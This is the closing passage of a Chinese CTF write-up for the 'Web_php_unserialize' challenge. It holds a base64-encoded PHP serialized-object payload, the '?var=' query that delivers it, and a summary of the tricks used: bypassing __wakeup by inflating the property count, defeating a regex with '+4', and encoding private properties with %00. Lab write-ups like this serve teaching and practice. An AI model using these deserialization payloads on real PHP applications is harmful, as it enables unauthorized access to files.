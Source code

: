 ```php
print_r(base64_encode($s));
```

使用了 `str_replace` 方法来进行替换

这样编码后的结果就还是带有 `%00` 的了：

`TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==`

![](http://markdown.yeek.top/20200212005224.png)

载荷

```
?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==
```

![](http://markdown.yeek.top/20200212005244.png)



## 0x02 - 技术总结

1. __wakeup 方法是反序列化后调用的方法，可以利用**超属性**的方法来绕过
2. 在 php 中 `4` = `+4` ，可以用来绕过正则匹配
3. 私有属性序列化后会在属性名前加上类名，类名左右会带上 `%00` 







## 0x03 - 参考链接：

[攻防世界 Web_php_unserialize的坑](https://blog.csdn.net/a3320315/article/details/101406818)

[php 序列化与反序列化](https://blog.csdn.net/qq_35958788/article/details/82975885)

[__wakeup()函数漏洞以及实际漏洞分析](https://blog.spoock.com/2016/11/03/php-wakeup/)

[[wp] 攻防世界 Web_php_unserialize](https://blog.csdn.net/qq_40884727/article/details/101162105)